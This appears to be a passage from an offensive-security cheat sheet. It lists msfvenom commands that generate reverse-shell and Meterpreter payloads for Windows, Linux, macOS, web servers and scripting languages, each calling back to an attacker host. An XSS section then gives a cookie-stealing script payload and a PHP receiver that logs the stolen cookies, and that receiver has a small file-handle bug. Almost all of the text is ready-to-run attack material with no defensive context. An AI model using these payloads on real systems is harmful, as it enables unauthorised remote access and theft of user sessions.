         msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe



- Linux Staged reverse TCP

        msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf



- Linux Stageless reverse TCP

        msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf




### Other platforms

$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php



# #######


# WebApp Attacks

-  ## XSS
    
    ### Stealing cookies      
  
       **Insert this payload in vulnerable app**     

   >   <script>var i=new image();i.src="http://oursite.com/receiverfiletowritecookies.php?parameter="+escape(document.cookie)</script> 
 
        **receiving php file on which cookies will be written**
 
   >     <?php
   >      
   >    $ip=$_SERVER['REMOTE_ADDR'];$browser=$_SERVER['HTTP_USER_AGENT'];
   >    
   >   
   >    $fp=fopen('txtstorefileonourserver.txt','a');
   >    
   >   fwrite($fp,$ip.''.$browser." \n");fwrite($fp,urldecode($_SERVER['QUERY_STRING']. " \n\n"));fclose($ip);?>
